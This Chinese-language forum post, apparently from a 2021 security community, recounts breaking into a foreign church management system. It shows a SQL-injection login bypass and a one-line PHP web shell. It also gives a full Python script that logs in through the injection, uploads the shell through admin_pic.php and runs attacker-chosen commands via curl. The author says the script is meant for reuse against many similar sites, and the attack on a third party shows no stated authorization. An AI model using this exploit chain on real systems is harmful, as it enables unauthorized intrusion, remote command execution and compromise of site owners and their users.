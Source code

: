前言
==

我习惯于在网上逛逛系统，有天突然逛到国外一管理系统，目测就是小资金开发，像这种类型的一般安全性很差，且存在postsql注入，废话不多说，我们来测试一波。

过程
==

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e0e7335d437d5b3c11885d44200e5849d09ea42.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e0e7335d437d5b3c11885d44200e5849d09ea42.png)  
sql注入成功登录  
admin  
a' or 1=1#  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-725ecc750ef6c5c9a6ea447ff05aa738b466b561.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-725ecc750ef6c5c9a6ea447ff05aa738b466b561.png)  
最重要的当然是拿shell了，先找上传点  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3a506780bf86e3bb539d1ea336e07c1e621856e9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3a506780bf86e3bb539d1ea336e07c1e621856e9.png)  
我之前也说过，像这种样的教会安全性也不高，所以我们直接传上一个，远程执行的文件

```php
   <?php if(isset($_REQUEST['cmd'])){$cmd = ($_REQUEST['cmd']); system($cmd);die; }?>
```

但直接上传之后，啥也没有，没上传上去，这里也并不是说他管理员做了安全防护的，而是这个功能可能并没有做完善了，这个时候我们有两种选择，一：自己写包  
二：写脚本。  
我选择了二，因为像这种样的网站还有很多，写个脚本以后也方便  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c1e9fa53d13bf6ffdc1936961c91058d384e5321.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c1e9fa53d13bf6ffdc1936961c91058d384e5321.png)  
方法里清一色的都是get，虽说网站安全很差，但不能都用get吧，我们抓包看一下[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-40d7e47f125467e184e7fa8533041ed06144492c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-40d7e47f125467e184e7fa8533041ed06144492c.png)  
这下确认过眼神了，是post方法，后台post并没有发出去，所以没有，我们现在知道了他的上传地址admin\_pic.php  
接下来还要知道上传到哪里了，这个就比较容易了，因为这是上传的头像，我们直接去头像看看[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1990047a587b284d5fa1c745d7cee903aca902ab.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1990047a587b284d5fa1c745d7cee903aca902ab.png)  
reg为它的初始化头像，并且我们还发现在未登录的情况下，任何文件都无法打开，这也是我唯一赞赏这个系统的地方了，所以这里还要在脚本里写个登录  
经过无数次的验证失败后，终于成功，并且请教了大佬，问题出现在最后的远程代码执行上  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d6f43fc122871185cae7c4d8057ae48d47baf264.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d6f43fc122871185cae7c4d8057ae48d47baf264.png)  
关键代码os.system：system函数可以将字符串转化成命令在服务器上运行；我在脚本方面还是比较差的，之前都是直接加载字符串，那怎么可能加载出来啊，大家一定要好好学习一下脚本的制作，我们执行一下看看。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-43da07d20e689453a5759cd24c8e03e1cb79ffa9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-43da07d20e689453a5759cd24c8e03e1cb79ffa9.png)  
对，还有一个重点session.post直接调用创建session实例后，cookie是一直有效的

```php
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder
import random
import os, sys
import argparse
import optparse
import string

if len(sys.argv) != 5:
    print('Usage: -u http://<ip> -c <"command">')
    print('ex. python3 http:-c "ls+-la"')
    exit()

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url")
parser.add_option('-c', '--cmd', action="store", dest="cmd")
options, args = parser.parse_args()

print(options.url, options.cmd)
print(len(sys.argv))

def randomGen(size=8, chars=string.ascii_lowercase):
    return ''.join(random.choice(chars) for _ in range(size))

urlb ase = options.url + '/cman/admin';
loginUrl = urlb ase + '/index.php';

shellFile = randomGen() + ".php"

payload = {"username": "admin", "password": "a' or 'a'='a'#", "login": ""};

proxies = {"http": "http://localhost:8080"}

mp_encoder = MultipartEncoder(fields={
    "image": (shellFile, "<?php if(isset($_REQUEST['cmd'])){$cmd = ($_REQUEST['cmd']); system($cmd);die; }?>",
              "application/x-php"),
    "change": ""})

session = requests.Session()
r = session.post(loginUrl, payload, allow_redirects=False)  # , proxies=proxies)
cookie = r.headers["Set-Cookie"]

headers = {"Cookie": cookie, 'Content-Type': mp_encoder.content_type}

uploadUrl = urlb ase + "/admin_pic.php"

post = session.post(uploadUrl, data=mp_encoder, allow_redirects=False, headers=headers, proxies=proxies)

os.system("curl " + urlb ase + "/uploads/" + shellFile + "?cmd=" + options.cmd)
```

源码我也分享出来了，前面的头文件一般都用这几个

总结
==

像这种样的系统还有很多，我们一定要把最基本的安全做了，比如sql注入，对上传的限制（各种限制都要有，不能只做表面，安全行业的人员一定要加强脚本语言的能力，这点我和大家一样，在努力中。